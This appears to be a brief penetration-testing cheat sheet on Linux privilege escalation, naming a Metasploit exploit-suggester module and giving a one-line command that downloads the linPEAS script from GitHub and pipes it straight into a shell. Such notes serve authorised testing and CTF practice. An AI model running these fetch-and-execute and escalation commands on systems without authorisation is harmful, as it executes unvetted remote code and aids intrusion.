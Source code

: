 # linux privesc - the easy way

## meterpreter

use `post/multi/recon/local_exploit_suggester`:

```
use post/multi/recon/local_exploit_suggester
```

## linPEAS

```bash
#From github
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh
```

